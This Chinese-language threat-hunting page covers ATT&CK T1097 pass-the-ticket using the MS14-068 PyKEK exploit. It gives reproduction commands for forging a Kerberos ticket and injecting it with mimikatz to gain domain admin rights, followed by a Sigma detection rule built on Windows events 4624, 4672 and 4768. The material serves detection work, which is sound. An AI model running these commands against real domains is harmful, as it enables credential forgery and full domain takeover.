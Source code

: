 # T1097-windows-MS14-068-PYKEK

## 来自ATT&CK的描述

票据传递攻击（PtT）是一种不访问账号密码而使用Kerberos凭据对用户进行身份认证的方法。Kerberos身份认证可以是横向移动到远程系统的第一步。

在使用PtT技术时，可通过凭据导出技术获取有效账号的Kerberos票据。PtT可能会获取到用户的服务票据或票据授予票据（TGT），具体取决于访问级别。服务票据允许访问特定资源，而TGT可用于从票据授予服务（TGS）请求服务票据，用来访问用户有权访问的任何资源。

PtT技术可以为使用Kerberos作为身份认证机制的服务获取白银票据，并用于生成票据来访问特定资源和承载该资源的系统（例如，SharePoint）。

PtT技术还可以使用密钥分发服务账号KRBTGT帐户NTLM哈希来获得域的黄金票据，从而为活动目录中的任一账号生成TGT。

## 测试案例

可参考：[内网渗透之PTH&PTT&PTK](https://www.bbsmax.com/A/A7zgkjRPz4/)

## 检测日志

windows 安全日志（AD域控日志）

## 测试复现

测试步骤

域控主机（Windows server 2008）
域内主机（Windows 7 SP1）

```cmd
whoami /user #域内主机查找当前用户SID
dir \\DC\C$  #查看访问DC的权限
ms14-.exe -u 域成员名@域名 -s 域成员sid -d 域控制器地址 -p 域成员密码 #域机器是可以和域控制器互通则会创建.ccache文件
```

票据注入

```cmd
mimikatz # kerberos::purge         //清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造
mimikatz # kerberos::list          //查看当前机器凭证
mimikatz # kerberos::ptc 票据文件   //将票据注入到内存中
```

使用mimikatz将票据注入到当前内存中，伪造凭证，如果成功则拥有域管理权限，可任意访问域中所有机器

## 测试留痕

测试留痕文件：[MS14-068-PYKEK-windows.log](https://github.com/12306Bro/Threathunting-book/tree/master/Eventdata/MS14-068/PYKEK)

## 检测规则/思路

```yml
title: MS14-068-PYKEK
description: windows server 2008 / windows 7
references: https://github.com/ThreatHuntingProject/ThreatHunting/blob/master/hunts/golden_ticket.md
tags: T1097
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: Security
detection:
    selection1:
        EventID: 4624 #账户登录
        Account Domain: '*.*' #新登录>账户域(正常情况下，账户域应为ABC，当存在PYKEK攻击时，账户域为ABC.COM)
        Account Name: '*' #新登录>账户名(不同于安全标识的帐户，此条件实现起来较为复杂)
    selection2:
        EventID: 4672 #管理员登录
        Account Domain: '*.*' #账户域(正常情况下，账户域应为ABC，当存在PYKEK攻击时，账户域为ABC.COM)
    selection3:
        EventID: 4768 #Kerberos TGS请求
        Supplied Realm Name: '*.*' #已提供的领域名称(正常情况下，已提供的领域名称应为ABC，当存在PYKEK攻击时，已提供的领域名称为ABC.COM)
    timeframe: last 5s
    condition: all of them
level: medium
```

## 参考推荐

MITRE-ATT&CK-T1097：<https://attack.mitre.org/techniques/T1097/>

内网渗透之PTH&PTT&PTK：<https://www.bbsmax.com/A/A7zgkjRPz4/>
